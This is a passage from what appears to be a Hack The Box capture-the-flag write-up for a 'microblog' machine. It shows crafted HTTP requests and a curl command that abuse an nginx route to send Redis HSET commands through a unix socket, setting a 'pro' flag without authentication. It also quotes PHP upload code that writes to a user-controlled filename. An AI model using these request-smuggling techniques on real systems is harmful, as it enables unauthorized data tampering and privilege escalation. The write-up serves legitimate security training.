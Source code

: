 * `HGET /static/unix:/var/run/redis/redis.sock:john pro / HTTP/1.1`
* `HSET /static/unix:/var/run/redis/redis.sock:john pro true / HTTP/1.1`

in order to get or set the `pro` flag in redis.

Another point of interest, is that, according to the regex, there must not be any `/` in the redis request, or nginX wil split it. To avoid this, we need to URL encode the problematic characters.

Using burpsuite, we can reuse a request and modify it to set the `pro` flag :

```python
HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:john%20pro%20true%20/fakeuri HTTP/1.1
Host: microblog.htb
```

![Untitled](pro_flag_set.png)

In a simpler way, we can execute in directly in the console :

```shell
curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:john%20pro%20true%20/fakeuri"
```

Since we use nginX to access redis, this is not linked to the application, and we do not need any session token.

### upload

With this new option, we are able to send an image :

![Untitled](pro_upload_image.png)

The application code to add an image :

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"><img src = \"{$upload_path}\" /></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```